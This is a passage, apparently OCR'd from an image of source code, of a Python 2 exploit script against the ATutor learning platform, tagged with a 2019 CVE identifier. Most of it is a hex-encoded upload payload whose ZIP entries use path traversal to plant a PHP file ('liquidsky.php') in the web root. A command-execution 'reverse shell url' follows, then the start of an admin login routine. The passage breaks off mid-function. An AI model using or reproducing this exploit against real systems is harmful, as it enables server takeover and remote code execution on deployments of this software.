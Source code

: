     data += "\x63\x3f\x83\x44\x0f\x2f\x43\x6f\xe7\xa0\xb4\x20\x83\xb0\xd0"
    data += "\xf0\xca\x94\xe2\xc8\x70\xd3\xbc\x94\x70\xb7\xbc\xa8\xe0\x94"
    data += "\x14\xef\x90\xe2\xf4\x80\x2a\x13\x3f\xe7\x74\x5b\x5b\x25\x4d"
    data += "\x4d\x6b\x05\x7b\x3b\x00\x50\x4b\x01\x02\x14\x03\x14\x00\x00"
    data += "\x00\x08\x00\xa4\x00\xb8\x4e\xbb\xb9\x35\x2d\x6a\x00\x00\x00"
    data += "\x6a\x00\x00\x00\x2c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
    data += "\x00\x80\x01\x00\x00\x00\x00\x2e\x2e\x5c\x2e\x2e\x5c\x2e\x2e"
    data += "\x5c\x2e\x2e\x5c\x2e\x2e\x5c\x2e\x2e\x2f\x78\x61\x6d\x70\x70"
    data += "\x5c\x68\x74\x64\x6f\x63\x73\x5c\x6c\x69\x71\x75\x69\x64\x73"
    data += "\x6b\x79\x2e\x70\x68\x70\x50\x4b\x01\x02\x14\x03\x14\x00\x00"
    data += "\x00\x08\x00\xa4\x00\xb8\x4e\xbb\xb9\x35\x2d\x6a\x00\x00\x00"
    data += "\x6a\x00\x00\x00\x2c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
    data += "\x00\x80\x01\xb4\x00\x00\x00\x2e\x2e\x2f\x2e\x2e\x2f\x2e\x2e"
    data += "\x2f\x2e\x2e\x2f\x2e\x2e\x2f\x2e\x2e\x2f\x76\x61\x72\x2f\x77"
    data += "\x77\x77\x2f\x68\x74\x6d\x6c\x2f\x6c\x69\x71\x75\x69\x64\x73"
    data += "\x6b\x79\x2e\x70\x68\x70\x50\x4b\x05\x06\x00\x00\x00\x00\x02"
    data += "\x00\x02\x00\xb4\x00\x00\x00\x68\x01\x00\x00\x00\x00\x0d\x0a"
    data += "\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d"
    data += "\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x43"
    data += "\x56\x45\x32\x30\x31\x39\x31\x32\x31\x36\x39\x0d\x0a\x43\x6f"
    data += "\x6e\x74\x65\x6e\x74\x2d\x44\x69\x73\x70\x6f\x73\x69\x74\x69"
    data += "\x6f\x6e\x3a\x20\x66\x6f\x72\x6d\x2d\x64\x61\x74\x61\x3b\x20"
    data += "\x6e\x61\x6d\x65\x3d\x22\x73\x75\x62\x6d\x69\x74\x22\x0d\x0a"
    data += "\x0d\x0a\x49\x6d\x70\x6f\x72\x74\x0d\x0a\x2d\x2d\x2d\x2d\x2d"
    data += "\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d"
    data += "\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x2d\x43\x56\x45\x32\x30\x31"
    data += "\x39\x31\x32\x31\x36\x39\x2d\x2d\x0d\x0a"


    #reverse shell url
    shell = "http://" + target + "/liquidsky.php?language=" + commands

    # Generate Hash
    def gen_hash(passwd, token):
            m= hashlib.sha1()
            m.update(passwd + token)
            return m.hexdigest()
     
    def we_can_get_jiggy_with_the_pass():

    # Run pass through SHA1
         hash_object = hashlib.sha1(password)
         hex_dig = hash_object.hexdigest()
         print "[*] Got SHA1 for pass: " + (hex_dig)

         targeturl = "http://" + target + "/ATutor/login.php"
         token = "abc"
         hashed = gen_hash(hex_dig, token)
         d = {
             "form_password_hidden" : hashed,
             "form_login": "admin",
             "submit": "Login",
             "token" : token
         }
         s = requests.Session()
